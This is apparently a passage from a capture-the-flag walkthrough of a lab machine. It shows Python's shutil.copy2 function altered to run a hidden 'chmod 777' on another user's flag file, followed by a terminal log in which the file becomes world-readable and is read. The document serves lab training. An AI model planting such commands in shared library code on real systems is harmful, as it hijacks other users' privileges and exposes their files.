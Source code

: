 ``````
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    os.system("chmod 777 /home/morpheus/morpheus_flag.txt")
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst

```

Save the file and wait

```
death@dreaming:/home/morpheus$ ls -la
total 44
drwxr-xr-x 3 morpheus morpheus 4096 Aug  7 23:48 .
drwxr-xr-x 5 root     root     4096 Jul 28 22:26 ..
-rw------- 1 morpheus morpheus   58 Aug 14 18:16 .bash_history
-rw-r--r-- 1 morpheus morpheus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 morpheus morpheus 3771 Feb 25  2020 .bashrc
-rw-rw-r-- 1 morpheus morpheus   22 Jul 28 22:37 kingdom
drwxrwxr-x 3 morpheus morpheus 4096 Jul 28 22:30 .local
-rwxrwxrwx 1 morpheus morpheus   28 Jul 28 22:29 morpheus_flag.txt
-rw-r--r-- 1 morpheus morpheus  807 Feb 25  2020 .profile
-rw-rw-r-- 1 morpheus morpheus  180 Aug  7 23:48 restore.py
-rw-rw-r-- 1 morpheus morpheus   66 Jul 28 22:33 .selected_editor
death@dreaming:/home/morpheus$ cat morpheus_flag.txt 
THM{***************}
```